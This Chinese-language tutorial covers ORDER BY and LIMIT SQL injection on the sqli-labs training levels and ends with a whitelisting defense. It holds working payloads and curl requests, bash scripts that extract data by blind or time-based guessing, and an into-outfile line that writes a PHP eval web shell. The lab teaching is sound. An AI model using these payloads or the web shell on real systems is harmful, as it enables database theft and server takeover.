



# 07-ORDER BY 注入

> 前置基础：[[../01-整数型注入|整数型注入]] · [[../04-布尔盲注|布尔盲注]] · [[../05-时间盲注|时间盲注]]
>
> 总目录：[[../SQL总目录|SQL 总目录]] · 本目录 [[mysql结构总目录|mysql结构 总目录]]
>
> 工具箱：[[../../../../../hackingtools/web/README|hackingtools/web 工具箱]]
>
> sqli-labs 对照：less-46、less-47（报错）、less-48、less-49（盲注变体）

## 一、order by 位置的特殊性

典型漏洞代码：

```php
$id = $_GET['sort'];
$sql = "SELECT * FROM users ORDER BY $id";
```

order by 后面的参数**不是 WHERE 条件的一部分**，而是语法关键字位置：



带来两个根本限制：

1. **不能 union**——`1 union select 1,2,3` 在 order by 之后是语法错误，五步方法论中的"探测列数 -> union 回显"路线整体失效
2. **引号闭合逻辑不同**——less-46 数字型直接拼；less-47 是 `ORDER BY '$id'` 单引号闭合，但引号内内容会被当作列名/表达式求值而报错

所以这一场景的武器库只剩：报错注入、排序差异盲注、时间盲注，以及 into outfile 写文件等扩展手段。**五步方法论在这里做替代变形**：爆库/爆表/爆列/取数四步照旧，但载体从 union 换成报错或侧信道。

### order by 的合法形态（payload 必须兼容）

| 输入 | SQL 语义 |
|------|---------|
| 数字 `1` | 按第 1 列排序 |
| 列名 `username` | 按该列排序 |
| 表达式 `rand()` | 按随机值排序 |
| `if(cond, colA, colB)` | 条件选列排序 ← 盲注侧信道所在 |
| `1 and updatexml(...)` | 表达式求值触发报错 ← 报错路线所在 |

**表达式位置可以放任何返回标量的函数与子查询**——这就是 updatexml/sleep/if 都能用的原因。

## 二、关卡对照与基准确认

| 关卡 | 闭合方式 | 报错回显 | 主打手段 |
|------|---------|---------|---------|
| less-46 | 数字型 | 有 | 报错注入 |
| less-47 | `'$id'` 单引号 | 有 | 报错注入 |
| less-48 | 数字型 | 无 | 排序差异 / 时间盲注 |
| less-49 | `'$id'` 单引号 | 无 | 时间盲注 |

先建立基准，后面三条路线都依赖它：

```bash
# sort=1 按 id 升序，第一行是 id 最小的记录
curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=1"
# 记录页面第一行: 1 Dumb Dumb

# sort=username 换列排序，第一行变化 → 参数确实进了 ORDER BY 子句
curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=username"
# 第一行变为 14 admin4 之类的字典序首行

# 确认 union 不可用（预期语法错误）
curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=1%20union%20select%201,2,3"
# 报错 near 'union select...' → 坐实 ORDER BY 位，放弃 union 路线
```

## 三、路线一：报错注入（有报错回显时的首选）

updatexml/extractvalue 直接放在排序表达式位置，一次请求带出 32 字符。五步方法论在报错路线下的替代形态如下。

### 第 3 步替代：爆库 database()

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=1%20and%20updatexml(1,concat(0x7e,database()),1)"
# XPATH syntax error: '~security'
```

### 第 4 步替代：information_schema 爆表

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=1%20and%20updatexml(1,concat(0x7e,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database())),1)"
# '~emails,referers,uagents,users'
```

### 第 5 步替代：爆列提取数据

```bash
# 爆列名
curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=1%20and%20updatexml(1,concat(0x7e,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name='users')),1)"
# '~id,username,password'

# 提取数据，substr 分段防 32 字符截断
curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=1%20and%20updatexml(1,concat(0x7e,substr((select%20group_concat(username,0x3a,password)%20from%20users),1,30)),1)"

curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=1%20and%20updatexml(1,concat(0x7e,substr((select%20group_concat(username,0x3a,password)%20from%20users),31,30)),1)"
```

注意：本位置**没有"探测列数"步骤**——ORDER BY 位不涉及结果集列数，这是与 WHERE 位注入最大的流程差异；也没有第 1 步的 union 恒真验证，改用上面的基准对照法确认参数进子句。

extractvalue 变体（两者任选其一，报错截断行为相同）：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=1%20and%20extractvalue(1,concat(0x7e,database()))"
```

### 字符型闭合版（less-47）

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-47/?sort=1'%20and%20extractvalue(1,concat(0x7e,database()))%20and%20'1'='1"
```

## 四、路线二：布尔盲注——排序差异法

无报错回显时（less-48），order by 的本质给了我们一个不依赖延时的高速侧信道：**改变行的顺序**。

```sql
-- database() 首字符 ascii > 96 时按第 1 列(id)排序，否则按 username 排序
sort=if(ascii(substr(database(),1,1))>96,1,username)
```

观察逻辑：



手工验证两条：

```bash
# 真：按 id 排序，首行 = 基准 A（1 Dumb）
curl -s "http://127.0.0.1/sqli-labs/Less-48/?sort=if(ascii(substr(database(),1,1))>96,1,username)"

# 假：按 username 排序，首行 = 对照 B
curl -s "http://127.0.0.1/sqli-labs/Less-48/?sort=if(ascii(substr(database(),1,1))>200,1,username)"
```

bash 二分猜解脚本：

```bash
#!/bin/bash
URL="http://127.0.0.1/sqli-labs/Less-48/?sort="
result=""
for pos in $(seq 1 8); do
  low=32; high=126
  while [ $low -lt $high ]; do
    mid=$(( (low + high) / 2 ))
    # 条件真按 1(id) 排序 → 首行含 "Dumb"；假按 username 排序 → 首行不同
    resp=$(curl -s "${URL}if(ascii(substr(database(),${pos},1))>${mid},1,username)")
    if echo "$resp" | head -c 200 | grep -q "Dumb"; then
      low=$(( mid + 1 ))
    else
      high=$mid
    fi
  done
  result="${result}$(printf \\$(printf '%03o' $low))"
  echo "[+] pos ${pos}: ${result}"
done
echo "database = ${result}"
```

脚本可移植性说明：grep 的锚词换成你环境里的基准 A 首行特征串即可；把 `database()` 换成 `(select ...)` 子查询即遍历全库。相比时间盲注每请求 5 秒，排序差异每个请求毫秒级完成，**速度提升两个数量级，是本场景盲注首选**。

前提条件：页面展示多行且行序可见。若页面只显示一行或做了分页固定，退回路线三。

## 五、路线三：时间盲注（最后的通用底牌）

连行序差异都没有时（less-49 单引号 + 无回显），用 if + sleep：

```sql
-- 数字型
sort=if(substr(database(),1,1)='s',sleep(5),0)
-- 字符型闭合版（less-49）
sort=1' and if(ascii(substr(database(),1,1))=115,sleep(5),0) and '1'='1
```

curl 用 `-w %{time_total}` 读耗时做判断：

```bash
# 真条件：约 5 秒返回
curl -s -o /dev/null -w "%{time_total}\n" \
  "http://127.0.0.1/sqli-labs/Less-48/?sort=if(substr(database(),1,1)='s',sleep(5),0)"

# 假条件对照：毫秒级返回
curl -s -o /dev/null -w "%{time_total}\n" \
  "http://127.0.0.1/sqli-labs/Less-48/?sort=if(substr(database(),1,1)='z',sleep(5),0)"
```

时间版猜解脚本：

```bash
#!/bin/bash
URL="http://127.0.0.1/sqli-labs/Less-48/?sort="
result=""
for pos in $(seq 1 8); do
  for c in {32..126}; do
    hex=$(printf '%x' $c)
    t=$(curl -s -o /dev/null -w "%{time_total}" \
        "${URL}if(ascii(substr(database(),${pos},1))=${c},sleep(4),0)")
    # 阈值取 2 秒：真条件约 4.x，网络抖动留余量
    if [ "$(echo "$t > 2" | bc)" -eq 1 ]; then
      result="${result}$(printf \\$(printf '%03o' $c))"
      echo "[+] pos ${pos}: char ${c} (${t}s) => ${result}"
      break
    fi
  done
done
echo "database = ${result}"
```

线性遍历较慢，可自行改为二分版本（把等号判断换成大于判断）。sleep 秒数建议 3-5：太小易受抖动误判，太大拖慢全程。

### 字符型闭合的完整速查（less-47/49）

单引号闭合版本的 payload 只多"引号进 + and '1'='1 出"两处，五步速查如下：

```bash
# 报错路线（less-47）
curl -s "http://127.0.0.1/sqli-labs/Less-47/?sort=1'%20and%20updatexml(1,concat(0x7e,database()),1)%20and%20'1'='1"

# 爆表
curl -s "http://127.0.0.1/sqli-labs/Less-47/?sort=1'%20and%20updatexml(1,concat(0x7e,(select%20group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database())),1)%20and%20'1'='1"

# 时间路线（less-49）
curl -s -o /dev/null -w "%{time_total}\n" \
  "http://127.0.0.1/sqli-labs/Less-49/?sort=1'%20and%20if(ascii(substr(database(),1,1))=115,sleep(4),0)%20and%20'1'='1"
```

### rand(true/false) 排序差异变体

if 选列之外还有一条等价写法——用 rand 基于条件返回固定种子，让整页行序呈现两种稳定形态之一：

```sql
sort=rand(if(ascii(substr(database(),1,1))=115,1,2))
```

与 if 选列法相比：rand 版本不依赖具体列名（无需知道表里有哪些列），在列名未知、只看得到行序的场景更通用；if 选列版本差异更直观（首行内容直接可辨）。两者脚本骨架完全一致，替换 payload 即可。

### 三条路线对比

| 路线 | 判断依据 | 前提 | 速度 |
|------|---------|------|------|
| 报错 | 错误信息内容 | 错误回显开启 | 最快，32 字符一次 |
| 排序差异 | 页面首行内容 | 多行结果且行序可见 | 快，毫秒级一位数次请求 |
| 时间 | time_total 超阈值 | 无 | 慢，一位一请求 |

选择原则：从上往下试，能用快的就不用慢的。

### 路线选择的决策流程



### 五步方法论在本章的逐步映射

标准流程是"确认注入 -> 探测列数 -> 爆库 -> 爆表 -> 爆列取数"。ORDER BY 位置没有结果集可 union，各步骤的载体全部替换：

| 标准步骤 | WHERE 位做法 | ORDER BY 位替代 | 本章落点 |
|---------|-------------|----------------|---------|
| 确认注入 | 加引号看报错 | sort=1 报错 / 基准排序对照 | 第二节 |
| 探测列数 | order by N 二分 | **无此步骤**（不涉及结果集） | 直接跳过 |
| 爆库 database() | union 回显位 | updatexml 排序表达式 | 第三节 |
| 爆表 information_schema | 同上 | 报错子查询 / 差异侧信道 | 第三节、四节 |
| 爆列取数 | 同上 | substr 分段报错 / 逐位猜解脚本 | 第三节、四节、五节 |

记住这张表：换语句位置时变的只是"载体"，提数据的信息路径永远不变。

## 六、into outfile 写文件（权限允许时）

order by 场景若权限允许，可尝试把查询导出为文件（需 `secure_file_priv` 放行 + FILE 权限）：

```bash
# 前置检查：secure_file_priv 允许目录（报错带出）
curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=1%20and%20updatexml(1,concat(0x7e,(select%20@@secure_file_priv)),1)"
# NULL 表示完全禁止读写文件 → 直接放弃此路线

# 导出查询结果到 web 根
curl -s "http://127.0.0.1/sqli-labs/Less-46/?sort=1%20into%20outfile%20'/var/www/html/test.txt'"

# 组合写 shell 的思路（CTF 中作为备选路径）
# sort=1 into outfile '/var/www/html/shell.php' fields terminated by '<?php eval($_GET[1]);?>'
```

outfile 成功的四个前提逐条核对：

| 前提 | 检查方式 | 不满足时的现象 |
|------|---------|---------------|
| secure_file_priv 非 NULL | 报错带出 @@secure_file_priv | The MySQL server is running with the --secure-file-priv option |
| 当前账号有 FILE 权限 | 报错带出 user() 后比对或尝试导出 | access denied for command |
| 知道绝对路径 | 报错/配置泄露/默认路径字典 | Can't create/write to file |
| 目标目录可写 | 导出后访问探测文件 | 同上 |

四条全绿才值得继续，任何一条卡死都应立刻转回数据提取路线。

限制条件多：secure_file_priv 默认 NULL、需绝对路径、需 DBA 或 FILE 权限，实战命中率低但值得先花一条请求探测。

## 七、limit 位置的提一嘴

若参数落在 limit 之后（分页 `LIMIT $offset,$rows`），MySQL 5.x 有一条历史路线：

```sql
LIMIT 0,1 procedure analyse(extractvalue(rand(),concat(0x7e,database())),1)
```

`procedure analyse()` 在 MySQL **5.x 可用、5.7 起废弃、8.0 已移除**——老环境可试，新版本直接放弃。limit 数字位的通用思路是控制偏移让页面显示不同行，构造类似路线二的差异侧信道。

## 八、易错点

| 易错点 | 说明 |
|-------|------|
| 尝试 union select | order by 位置语法不允许，浪费轮次，先确认参数进的是哪个子句 |
| 忘记 less-47/49 引号闭合 | `sort=1' and ... and '1'='1` 与数字型 payload 不同 |
| 排序字段被反引号包裹 | `` ORDER BY `$sort` `` 时引号内是标识符而非表达式，报错注入失效只能打盲注变体 |
| sleep 打在大表恒真处 | 全行延迟可能拖死数据库，测试前评估数据量 |
| 盲注锚行选错 | 排序差异要选稳定可见的第一行，避免分页干扰 |
| procedure analyse 打 MySQL 8 | 函数已移除，只会得到不存在的错误 |
| 时间阈值设太低 | 网络抖动导致假阳性，真条件至少 sleep 3 秒以上 |

## 九、防御

| 措施 | 说明 |
|------|------|
| 白名单排序字段映射 | **标准解法**：前端传 `sort=name`，服务端映射到固定 SQL 片段 |
| 不接受任意表达式 | 校验只允许 `[a-zA-Z0-9_]`，杜绝空格与括号 |
| 方向参数同样白名单 | asc/desc 也走映射，防止方向位注入 |
| 参数化查询的边界 | prepared statement 不能绑定列名/关键字，排序字段必须代码层白名单 |

```php
// 防御示例
$allowed = ['username' => 'username', 'id' => 'id', 'time' => 'reg_time'];
$order = $allowed[$_GET['sort']] ?? 'id';      // 不在表内则回退默认值
$sql = "SELECT * FROM users ORDER BY $order";  // 此时拼接是安全的
```

## 十、自动化：sqlinject.py 工具

本章对应命令已内置在工具中，路径 `~/hackingtools/web/injection/sqlinject.py`（用法详见 [[../../../../../hackingtools/web/README|hackingtools/web 工具箱]]）：

```bash
# ORDER BY 位报错路线：工具识别参数位于关键字位置后自动切换无 union 流程
python3 ~/hackingtools/web/injection/sqlinject.py \
  -u "http://127.0.0.1/sqli-labs/Less-46/?sort=1"

# 无报错回显的盲注变体（less-48/49），指定时间模式与阈值
python3 ~/hackingtools/web/injection/sqlinject.py \
  -u "http://127.0.0.1/sqli-labs/Less-48/?sort=1" \
  --technique T --time-sec 4

# 叠加过滤场景时补 tamper（如同时过滤空格）
python3 ~/hackingtools/web/injection/sqlinject.py \
  -u "http://127.0.0.1/sqli-labs/Less-48/?sort=1" \
  --tamper space2comment,doublewrite
```

提醒：ORDER BY 位的手法分支多（报错/排序差异/时间/outfile），工具默认走报错优先策略；若目标关了错误回显，务必像上文那样先用两条 curl 确认排序差异是否存在，再决定交给工具还是手写脚本——依据具体情况分析永远优先于自动化。

### 关联阅读

- 报错注入原理细节见 [[../03-报错注入|报错注入]]（如目录内存在该章则直接跳转）
- 布尔/时间盲注通用原理：[[../04-布尔盲注|布尔盲注]] · [[../05-时间盲注|时间盲注]]
- 过滤叠加场景见 [[05-过滤空格|过滤空格]] · [[06-AND_OR注入|AND/OR 注入]]
- 场景决策总表见 [[09-综合训练|综合训练]]

---
**返回** [[../SQL总目录|SQL 总目录]] · [[mysql结构总目录|mysql结构 总目录]]
